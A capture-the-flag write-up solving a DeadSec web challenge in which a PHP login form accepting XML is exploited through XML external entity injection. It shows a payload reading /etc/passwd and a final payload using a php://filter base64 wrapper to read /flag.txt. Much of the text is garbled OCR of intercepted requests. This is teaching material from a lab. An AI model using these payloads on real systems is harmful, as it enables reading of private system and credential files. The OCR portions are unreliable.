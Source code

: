 # XEE1
> flag in flag.txt

## About the Challenge
We were given a website that contains a login page


[Image extracted text: Login form
CHECK:
UserName
test
Password
LOGIN]


And if we check the HTTP request and response when entering the username and password


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
POST
[login-php
HTTP / 2
HTTP/ 2
200
OF
Host
6233a0-330e9alf284100062
deadsec
quest
content-
Type:
tert /htnl
charset-ut f-8
User-Agent
Hozilla/ 5
(Vindous
IT
10
Vin64;
{64;
17:109
Gecko/zO1OO101
Dace
Sun ,
2023
10:43: 56
GHT
Firefor/113
Server:
Apache/ - _
4.25
(Debianh
Aecept
applicat
on/*nl
cexc/*ul
"1*;
9-0
X-Povered-By:
PHP / 7
0 . 33
Accept-Language
en-US
en ; 4-0 -
Content-Length:
Accept-Encoding:
gzip,
deflace
Content
Type
applicat
on / *1l
charset-ut f-8
<result>
X-Requested-With: XLHttpRequest
<code
Content
engch:
Origin: https: / /8233402330e9alfc84100062.deadsec
qest
~[eode>
Referer:
https: / /6233a02330e9alfc84100063
deadsec - quest /
<msg>
Sec-
etch-Dest
empty
cest
Sec-Fetch-Hode:
cors
[nsg>
Sec-
etch-Sice
~ =
origin
~/resulc>
Te:
crailers
ruser>
Susernane>
cest
fusernale>
<passvord>
cest
{password>
FLSer?
Hay]



## How to Solve?
At first, Im using a `file` protocol to read `/flag.txt` file


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
POST
/login
php
HTTP / =
HTTP/ 2
200
OK
Host
623320-330e9alf284100063
deadsec
quest
Content
Type
tert /htul
charsetzut f-8
User-Agent
Hozilla/5
(Vindous
IT   10
Vin64;
*64;
rv:109
Gecko/:O1OO101
Dace
Sun
Hay
2023
10:49:26
GHT
Fire
7113
Server
Apache/ =-
(Debianh
Accept
applicat
on/xul
cext/x1l
"1";
X-Povered-By:
PHP / 7 . 0 . 33
Lccept-Language
En
US
en;4-0_
Content
Lencth:
Aecept
Encoding:
szip ,
deflace
Content
Type
application/ xnl
charset-ut f-8
<result>
X-Requesced-Vith:
XIILHttpRequest
~code
Content
Lengch:
156
Origin:
https: / /8233302330e9alfc84100062.deadsec.quest
~fcode>
Referer
https: / /6233a02330e9alf284100063
deadsec
quest /
<nsg>
Sec-Fetch-Dest
empty
You
ca
read
che
flag
Sec--
etch-
Hode:
cors
[msg>
Sec-
etch-Sice
Fun =
origin
~/resulc?
Te;
crailers
I--r1
version=
2--7
IDOCTTPE
replace
EITITT
ent
SYSTEH
file:/ /[flag-exth
ruser
Susernane>
ent
fusernane>
<passvord>
cest
</passvord>
lusery
fox
4F0]


But the output was `You can't read the flag`. Im very confused because my payload was working perfectly if I want to read another file (ex: /etc/passwd)


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
POST
/login-php
HTTP / 2
HTTP/ 2
200
OK
Host
623320-330e9alf284100063
deadsec
quest
Content
Type
tert /htul
charset-ut f-8
User-Agent
Hozilla/5
(Vindous
Vin64;
{64;
rv:109
Gecko/:O1OO101
Date
Sun
Hay
2023
10:49:22
GHT
Firefor/113
Server:
Apache/=
4.25
(Debian)
Accept
applicat
on/xul
cext/x1l
"1";
Vary:
Accept-Encoding
1ccept-
anguage
en-US
en ;
X-Povered-By:
PHP / 7 - 0 _
33
Accept
Encoding:
szip ,
deflace
Content-Length:
993
Content
Type
applicat
on / *1l
charset-ut f-8
X-Requested-Vith: XILHttpRequest
<resulc>
Content
engch:
158
<code>
Origin:
https: / /8233302330e9alfc84100062
deadsec
qest
Re ferer:
https: / /6233a02330e9alf284100063
deadsec
quest /
4code>
Sec-
etch-Dest
empty
<msg>
Sec-
etch-
Hode
cors
oot %:0-O-root:(root
{bin /bash
Sec-
etch-Sice
6 An =
origin
daemon: %:1:1: daehon=
[usr /sbin: /us / sbin/nologin
Te;
crailers
11
bin:%  3:Z bin: /bin: /USr / sbin/nologin
16
12
Sys:%:3:3:sys: /dev: /uS1 /sbin/nologin
I--r1
version=
2--7
13
sync:*: 4:65534:sync: /bin: /bin/sync
IDOCTTPE
replace
EITITT
ent
SYSTEH
file: / / /ete/passud"
14
James:*: 5:60: game
lusr
Jales
{uSr /sbin/no
ogin
<user
15
man:* 6:13
man:
Ivar / cache /man: /uSr / sbin/nologin
susernane
Ip:*: 7: 7: Ip: /var / spool
lpd: /us1 /sbin/nologin
Lent
17
bail
383 8:mail: /var /mail
(USr / sbin/nologin
~fusernale
18
nevs
*:9
:neus: /var/ spoo
Ineus: /usr/sbin/nologin
<passvord>
uucp
x10:10: uucp
Ivar / spool/uucp
(usr / sbin/nologin
cest
proxy:*:13:13-proxy: /bin: /usr /sbin/no_
ogin
</password>
IT
data:*.33:33
TV-data: /var /WUV: /USr / sbin/nologin
USEr?
22
backup
x:34:34:backup
Ivar /backup $
lusr
sbin/no
ogin
lis0 %.38:38
Hailing List Hanager: /varflist: /usr/sbin/nologin
irc:*39
39:ircd: /var/run/ ired: /us1 /sbin/nologin
mats:x: 41:41:Cnats Bug-Reporting Systen
admin)
Ivar/lib/ gat s
fusr / sbin/no_
ogin
nob
dy:*65534:65534
nobody: (noneristent
(usr / sbin/nologin
apt
100:65534
{nonexistent
[bin/ false
onsra:*:1OOO: 1oO0:
[hone
onsra:
Fh& C
<(resulc>
9F0
920]


So I decided to use PHP wrapper to encoded the output with `base64` encoding. Here is the final payload

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "php://filter/read=convert.base64-encode/resource=/flag.txt"> ]>
<user>
    <username>&ent;</username>
    <password>test</password>
</user>
```


[Image extracted text: Inspector
1 -
X
Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
Selection
36 (0x24)
POST
/login
php
HTTP / 2
HTTP/ 2
200
OF
Host
623320-330e9alf284100063
deadsec-quest
Content
Type
tert /htul
charset-ut f-8
Selected text
User-Agent
Hozilla/5
(Vindous IT
Vin64;
{64;
rv:109
Gecko/:O1OO101
Dace
Sun ,
Hay
2023
10: 53: 09
GHT
Fire
7113
Server:
Apache/ =-
(Debianh
ZGVhZHEuIUIIXZJyHF STRTI fH3p faDIToH
Accept
applicat
on/xul
cext/x1l
"1";
Vary:
Accept-Encoding
30K
Lccept-Language
en-US
en ;
X-Povered-By:
PHP / 7 _
0-33
Aecept
Encoding:
szip
deflace
Concent
ength:
Content
Type
applicat
on / *1l
charset-ut f-8
X-Requested-With: XILHttpRequest
<resulc>
Decoded from:
Base64
Content
Lengch:
198
<code>
Origin:
https:
/8233302330e9alfc84100062.deadsec.quest
dead (nlce
bro
XE3
32_h3h3}
Referer
https:
/6233202330e9alf284100063
deadsec
quest /
4code>
Sec--
etch-Dest
empty
<nsg>
Sec--
etch-
Hode:
cors
ZGVhZHCuIUlX-JYHFSTRTIfHZp faDHoHZOK
Sec-
etch-Sice
6 An =
origin
r0s9>
Te: trailers
</resulc>
Request attributes
I--r1
version=
2--7
<!DOCTYPE replace
EITITT
ent
STSTEH
Request query parameters
'php
(/filter/read-
onvert-base64
encodefresourcez/ flag_
crt
suser>
Request cookies
<usernanez
ent
<fusernane
Request headers
<passtord>
cest
~[passtord>
Response headers
USerZ
Seorcni
matches
Seorcn 
matches
Done
273 bytes | 270 millis
fox
9F0
9-0]


```
dead{n1ce_br0_XE3_3z_h3h3}
```